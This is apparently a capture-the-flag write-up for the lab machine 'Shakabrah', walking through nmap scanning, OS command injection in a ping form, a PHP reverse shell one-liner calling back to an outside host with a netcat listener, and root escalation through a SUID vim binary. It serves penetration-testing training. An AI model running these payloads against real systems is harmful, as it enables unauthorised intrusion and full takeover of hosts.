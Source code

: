 ```yaml
---
layout: default
title : muzec - Shakabrah Writeup
---
```




### Enumeration With Nmap

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```


```
┌──(muzec㉿Muzec-Security)-[~/Documents/PG/sha]
└─$ nmap -sC -sV -oA nmap 192.168.144.86
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-23 14:02 WAT
Nmap scan report for 192.168.144.86
Host is up (0.27s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:b9:6d:35:0b:c5:c4:5a:86:e0:26:10:95:48:77:82 (RSA)
|   256 a8:0f:a7:73:83:02:c1:97:8c:25:ba:fe:a5:11:5f:74 (ECDSA)
|_  256 fc:e9:9f:fe:f9:e0:4d:2d:76:ee:ca:da:af:c3:39:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.11 seconds
```

### Web Enumeration On Port 80

Since HTTP is open which is port 80 let vist it on our browser we can see a page which allow us to ping a host like a `localhost` so i try pinging to see what we have on the web page.

![image](https://user-images.githubusercontent.com/69868171/126810931-aefc3bde-bdfe-4168-8506-7ad759284a86.png)


```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.035 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.050 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.039 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.046 ms

--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3077ms
rtt min/avg/max/mdev = 0.035/0.042/0.050/0.008 ms
```

### Exploitation Os Command Injection On The Page Form

Let try to verify this by attempting to run the id command using the following payload: `| id` .

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Boom we have command injection now let try to get a reverse shell back to us.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/PG/sha]
└─$ sudo nc -nvlp 80
[sudo] password for muzec: 
listening on [any] 80 ...
```

Now our payload.

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![image](https://user-images.githubusercontent.com/69868171/126811641-90036778-f5bb-4712-88da-b1be048bb0ca.png)

We have shell now let spawn a TTY shell.

```
python3 -c 'import pty; pty.spawn ("/bin/bash")'
```

```
www-data@shakabrah:/var/www/html$ uname -a;id;whoami
uname -a;id;whoami
Linux shakabrah 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
www-data@shakabrah:/var/www/html$ 
```

### SUID Privilege Escaltion

```
find / -perm -u=s -type f 2>/dev/null
```

SUID Binaries

```
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/newgidmap
/usr/bin/vim.basic
/usr/bin/newuidmap
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
```

We can see `/usr/bin/vim.basic` so that our way to root let exploit it.

```
/usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/bash", "bash", "-pc", "reset; exec bash -p")'
```

![image](https://user-images.githubusercontent.com/69868171/126812515-2ab4c5ae-7bcd-4e6e-b84b-a80caaa8b035.png)

We came accross some few error with vim asking for terminal type now let gp back to our main machine to check our terminal type.

```
echo $TERM
```

![image](https://user-images.githubusercontent.com/69868171/126812647-7acfef0e-2e9e-4aa2-8776-c4faaf488cd7.png)

So it `screen` now let go back to the target.

![image](https://user-images.githubusercontent.com/69868171/126812926-4add5916-c6fb-4016-ac02-5376fc2bb5f5.png)


We are root and done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
